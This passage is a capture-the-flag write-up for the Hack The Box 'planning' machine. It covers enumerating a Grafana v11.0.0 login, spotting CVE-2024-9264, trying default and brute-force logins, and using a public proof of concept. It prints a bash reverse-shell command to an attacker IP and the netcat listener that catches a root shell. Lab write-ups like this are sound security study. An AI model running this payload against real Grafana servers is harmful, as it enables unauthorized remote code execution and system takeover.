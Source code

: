 ### Grafana Page
- It looks like `vhost` scanning is the way to go!
- We're running `Grafana v11.0.0`. The subdomain sends me straight to a login page.
- Well what do we have here: [CVE-2024-9264](https://nvd.nist.gov/vuln/detail/cve-2024-9264)
> The SQL Expressions experimental feature of Grafana allows for the evaluation of `duckdb` queries containing user input. These queries are insufficiently sanitized before being passed to `duckdb`, leading to a command injection and local file inclusion vulnerability. Any user with the VIEWER or higher permission is capable of executing this attack. The `duckdb` binary must be present in Grafana's `$PATH` for this attack to function; by default, this binary is not installed in Grafana distributions.
- So there is an exploit, but we're going to need some credentials. Default login is `admin:admin`, so let's try that out... nope.
- That should be expected, it isn't 2018 anymore.
- It's worth noting that we aren't getting locked out. I could attempt a brute force.
- I could try out some SQL injections on the root domain, if I can leak credentials from there they can potentially be reused for the Grafana login.
- I could try out the instructor usernames, something like `bmoss@planning.htb` with weak passwords.

## Foothold
### Grafana Login
- So I have a list of possible usernames:
```txt
admin
grafana
rmary
bmoss
shaks
admin@planning.htb
grafana@planning.htb
rmary@planning.htb
bmoss@planning.htb
shaks@planning.htb
```
- I'll start a cluster bomb attack in Burp and see how it goes. I'll be back after lunch :)
- WOW! So if you read carefully in the box description, they give the login for this.
```a
admin:0D5oT70Fq13EvB5r
```
- That's fine. I'm fine. So we have a login and the vulnerability. I see a [PoC script](https://github.com/nollium/CVE-2024-9264), so let's try that out. 
```a
[lkotlus@work] [.../Nerd/htb/planning/CVE-2024-9264] [ main]  
(bash)> python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.173/8000 0>&1\"" http://grafana.planning.htb/  
[+] Logged in as admin:0D5oT70Fq13EvB5r  
[+] Executing command: /bin/bash -c "bash -i >& /dev/tcp/10.10.14.173/8000 0>&1"
```
- And while listening on that port...
```a
[lkotlus@work] [~/Nerd/htb/planning]    
(bash)> nc -nlvp 8000  
Connection from 10.10.11.68:49190  
bash: cannot set terminal process group (1): Inappropriate ioctl for device  
bash: no job control in this shell  
root@7ce659d667d7:~#
```
- Popped a shell!
